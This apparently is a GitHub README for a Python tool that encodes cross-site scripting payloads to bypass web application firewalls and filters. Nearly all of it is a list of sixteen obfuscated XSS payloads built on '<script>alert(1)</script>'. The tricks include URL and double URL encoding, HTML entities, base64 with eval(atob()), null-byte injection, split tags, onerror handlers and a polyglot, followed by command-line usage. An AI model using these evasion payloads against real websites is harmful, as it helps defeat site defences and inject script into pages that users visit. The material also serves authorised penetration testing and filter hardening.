 # PayloadEncoder
Payload Encoder
When trying to bypass Web Application Firewalls (WAFs) or filters, encoding and obfuscation techniques can help evade basic detection. Below are various methods to encode or obfuscate the payload 

For Example: "<script>alert(1)</script>":
1. URL Encoding

    Full URL encoding:
    
```
%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
Partial URL encoding (only encode specific characters):



    <script>alert&#40;1&#41;</script>

2. HTML Entity Encoding

    Using HTML entities for all characters:


```
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
```
Mixed HTML entities:



    &#x3C;script&#x3E;alert(&#49;)&#x3C;/script&#x3E;

3. Hexadecimal Encoding

    Using hexadecimal escape sequences:


```
    \x3Cscript\x3Ealert\x281\x29\x3C/script\x3E
```
4. Base64 Encoding

    Encoding the entire payload:


```
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
Decoding in an HTML context:



    <script>eval(atob('YWxlcnQoMSk='))</script>

5. Double URL Encoding

    Encoding the URL-encoded version again:


```
    %253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
```
6. Hexadecimal Representation of Characters

    Using hex representation:


```
    \u003Cscript\u003Ealert(1)\u003C\u002Fscript\u003E
```
7. Octal Encoding

    Using octal representation:


```
    \074script\076alert(1)\074\057script\076
```
8. JavaScript Escape Sequences

    Escaping characters within JavaScript:


```
    <script>\x61\x6c\x65\x72\x74\x28\x31\x29</script>
```
9. Mixed Encoding

    Combining different encoding methods:


```
    &#x3C;&#x73;&#99;r&#105;p&#x74;&#x3E;&#97;&#x6C;&#x65;&#x72;&#116;&#x28;&#49;&#x29;&#x3C;&#x2F;&#115;&#x63;&#x72;&#105;&#112;&#116;&#x3E;
```
10. Non-Printable Characters

    Injecting non-printable characters:


```
    <scri%00pt>alert(1)</scri%00pt>
```
11. Breaking Up the Script Tag

    Fragmenting the <script> tag:


```
    <scr"+"ipt>alert(1)</scr"+"ipt>
```
12. Using Backticks

    Using backticks in place of single or double quotes:


```
    <script>alert(`1`)</script>
```
13. Expression and Eval

    Using eval or expression in inline JavaScript:


```
    <img src=x onerror="eval('alert(1)')">
```
14. Lowercase and Uppercase

    Altering case:


```
    <sCriPt>alert(1)</sCriPt>
```
15. Polyglot Payload

    Crafting a payload that can be interpreted differently depending on the context:


```
    <scri<script>pt>alert(1)</scri</script>pt>
```
16. Inline Comments

    Adding inline comments to break up the script:


```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

# Usage

Single Payload Encoding:

bash
```
python encode_payloads.py -p "<script>alert(1)</script>" [-o output.txt]
```
Encodes a single payload. If -o is provided, it saves the result to output.txt. Otherwise, it prints the encoded payloads to the console.

Multiple Payloads from a File:

bash
```
python encode_payloads.py -l input_payloads.txt [-o output.txt]
```


Input Parameters:

    Use -p or --payload for a single payload.
    Use -l or --list for encoding payloads from a file.
    Use -o or --output to specify an output file (optional).
